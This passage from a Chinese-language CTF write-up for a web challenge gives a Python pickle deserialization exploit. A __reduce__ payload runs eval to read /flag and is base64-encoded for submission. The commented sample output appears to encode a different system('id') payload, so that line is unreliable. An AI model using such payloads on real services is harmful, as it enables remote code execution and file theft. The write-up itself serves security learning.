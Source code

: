 於是後來我私訊了作者之後

才得出了上面開頭的結論

那就直接跳結論

```python
class Exploit(object):
    def __reduce__(self):
        return (eval, ("open('/flag').read()",))

e = Exploit()
print(base64.b64encode(pickle.dumps(e)).decode())
# gANjcG9zaXgKc3lzdGVtCnEAWAIAAABpZHEBhXECUnEDLg==
```

其實正規解法跟我的進度其實就只差最後一個重點：

_evil 的 eval_

作者的[官方解](https://github.com/djosix/AIS3-2020-Pre-Exam#snake-web)那邊還有很多解法

伺服器被玩壞可能的原因等等腦洞大開的細節

有興趣就自行移駕囉

## 心得
